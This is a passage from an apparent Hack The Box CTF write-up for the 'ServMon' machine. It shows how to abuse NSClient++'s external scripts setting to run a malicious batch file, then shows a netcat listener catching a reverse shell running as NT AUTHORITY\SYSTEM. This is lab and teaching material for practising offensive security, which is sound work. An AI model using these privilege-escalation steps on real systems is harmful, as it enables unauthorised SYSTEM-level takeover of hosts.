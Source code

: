 Let's continue. The website is a bit confuse, so I'll explain it for the 5th step:
Go to settings, click on external scripts and again in scripts.
Now click on "+Add new" tab and, in Section, append /foobar at the end (in my case, it remains like "/settings/external scripts/scripts/foobar").
In Key you must write "command", and in Value, "c:\temp\evil.bat".


IMPORTANT: We don't need to do the six step nor restart the computer.
Now open a netcat listening on our machine and (in NSClient++) go to the Console tab.
Write into it "reload", and then "foobar". No more is needed.

```
kali@kali:~/CTFs/Writeups/eternals/HTB/ServMon_SPOILER/netcat$ sudo nc -nlvp 1999
listening on [any] 1999 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.184] 50513
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

Have a nice day =)